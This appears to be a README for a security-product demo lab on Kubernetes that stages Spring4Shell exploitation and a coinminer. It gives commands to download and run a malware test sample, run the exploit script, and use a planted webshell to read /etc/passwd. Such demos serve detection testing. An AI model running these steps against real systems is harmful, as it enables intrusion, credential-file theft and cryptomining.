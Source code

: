 # Spring4Shell and Coinminer PoC


# STEP 1. https://github.com/reznok/Spring4Shell-POC 를 git clone
# STEP 2. clone 한 exploit.py 를 본 repo의 exploit.py로 교체
# STEP 3. docker build . -t spring4shell 로 빌드
# STEP 4. 아래 내용을 참고하여 실행 (kubectl apply -f xdr_for_cloud_demo.yaml)


## This is for testing and demo purpose
### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
Apply for the provided YAML file:
```sh
$ kubectl apply -f xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```
Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell


### Use cases
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

#### Exploit the Spring4Shell service
Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.


![WebPage](screenshots/checkService.png?raw=true)

Once you see the above, you are good to exploit it.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
